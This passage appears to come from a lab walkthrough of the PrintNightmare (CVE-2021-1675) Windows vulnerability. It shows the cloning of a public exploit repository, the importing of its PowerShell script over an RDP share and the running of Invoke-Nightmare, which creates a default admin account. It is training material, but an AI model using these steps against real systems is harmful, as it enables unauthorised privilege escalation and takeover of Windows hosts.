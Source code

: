 ```bash
:/# cd /tmp && git clone https://github.com/calebstewart/CVE-2021-1675 && CVE-2021-1675 && 1
Cloning into 'CVE-2021-1675'...
remote: Enumerating objects: 40, done.
remote: Counting objects: 100% (3/3), done.
remote: Compressing objects: 100% (2/2), done.
remote: Total 40 (delta 1), reused 1 (delta 1), pack-reused 37 (from 1)
Unpacking objects: 100% (40/40), 127.15 KiB | 4.38 MiB/s, done.
CVE-2021-1675: command not found
```

<br>
<br>
<br>
<p>6.3. Inside your RDP session, open a new PowerShell Window.<br>
<code>No answer needed</code></p>

<br>
<br>
<br>
<p>6.4. The repository that we downloaded contains a PowerShell (.ps1) script that needs to be imported. We can import it using: . \\tsclient\share\CVE-2021-1675\CVE-2021-1675.ps1  Make sure to include the dot at the start! This uses dot-syntax to import any functions exposed by the script. We are using \\tsclient\share to reference the share that we created. This allows us to view (and thus import) files that are stored in the /tmp folder of our own attacking machine!<br>
<code>No answer needed</code></p>

<img width="1193" height="363" alt="image" src="https://github.com/user-attachments/assets/e8143fb8-1066-4d8f-b3a1-83430197f189" />

<br>
<br>
<br>
<p>6.5. Only one thing left to do: run the exploit! We can start the ball rolling by executing Invoke-Nightmare.<br>
<code>No answer needed</code></p>

<img width="1227" height="370" alt="image" src="https://github.com/user-attachments/assets/daf8c026-472f-439e-9c11-c8837e590403" />

<br>
<br>
<br>

<p>

- adm1n:P@ssw0rd</p>

<br>
<p>6.6. Notice that our payload mentions creating a new user called adm1n with a password of P@ssw0rd? This is the default behaviour when using this exploit; however, we could have created our own payload and substituted that in should we have preferred another method of exploitation.
Regardless, we can now make use of our brand new admin account!<br>
<code>No answer needed</code></p>


<img width="1117" height="265" alt="image" src="https://github.com/user-attachments/assets/f30adf48-cdaf-439c-82a8-336f57bfbc3e" />
